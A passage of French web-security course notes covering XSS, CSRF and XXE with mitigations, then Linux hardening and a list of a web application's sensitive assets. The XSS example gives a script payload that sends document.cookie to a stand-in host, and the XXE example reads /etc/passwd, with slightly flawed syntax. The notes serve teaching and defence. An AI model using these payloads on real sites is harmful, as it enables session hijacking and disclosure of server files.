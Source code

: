   - Dans un champs de formulaire (non protégé) on entre:
   - ```" "><script>document.write('<img src="http://mon.site.com/"'+document.cookie+'/>');</script>```
   - Le cookie de session est récupéré dans les logs http du site mon.site.com !

  - Prémunition
   - Validation des entrées utilisateur **de bout en bout**
   - HTTPOnly cookies
   - Echappement des chaînes de caractères pertinent dans le contexte d'utilisation des entrées des utilisateurs (LDAP, SQL, XML...)

###Faille CSRF (Cross Resource Request Forgery)

 - Il s'agit de:
  - Identifier une fonctionalité post authenfication sensible
  - Réaliser un formulaire qui crée une requête identique avec des données falsifiées
   - On peut utiliser BURP pour forger la requête

 - Prémunition
   - token csrf pour s'assurer de l'origine de la requête
    - généré côté framework ou par le WAF (exemple mod_security)

###Faille XXE (XML External Entity)

- Il s'agit de:
  - Exécuter du code malveillant qui repose sur l'appel à des entités extérieures dans un document XML
  - Exemple:
   - ```<!DOCTYPE fail [<!ENTITY XXE SYSTEM /etc/passwd>]><foo>&xxe;</foo>```
   - Affiche le contenu du fichier /etc/passwd
  - Prémunition
   - Ne pas autoriser la déclaration de DTD en ligne (configuration du parser)


##Administration d'une plateforme d'hébergement GNU/LINUX

  - Principes de base
    - Moindre privilège
    - Intérractions entre développeur et admmin-système


  - Descente de privilèges
   - Droits d'accès au système de fichiers
   - Attention à l'espace mémoire aloué pour l'application


  - Réduction de la surface d'attaqye

  - Durcissement du socle système (GRSEC, SE LINUX, APP-ARMOR)

###Les biens sensibles d'une application web

 - BDD
 - Code source
 - Performances CPU-RAM
 - Vantage Point (rebond vers le réseau hôte)
 - BDD côté client (HTML5)
 - Fichiers (uploadés ou statiques)
 - Clefs cryptographiques
 - Journaux
